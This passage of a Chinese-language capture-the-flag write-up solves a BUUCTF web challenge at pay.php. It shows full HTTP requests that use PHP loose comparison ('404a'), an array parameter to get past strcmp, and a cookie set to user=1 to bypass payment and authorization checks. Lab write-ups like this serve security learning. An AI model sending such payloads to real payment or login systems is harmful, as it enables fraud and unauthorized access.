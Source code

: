 这里提示我们**POST**`money`和`password`，首先查看代码，意思就是`password`需要被提交一个值（`isset()`），这个值不能为数字类型（`isnumeric()`），同时，这个值需要和`404`弱等于

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money=100000000
```

这里我们让`passwrod=404a`，`money=100000000`，我们还发现cookie中包含一个`user=0`，将他置为1，发送，返回得到`Nember lenth is too long`，说明我们的`money`过长，后台大概率采用`strcmp`函数比较，对于这个函数，数组方法绕过即可

### payload

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money[]=100000000
```

## HardSQL

> *2021/07/07*

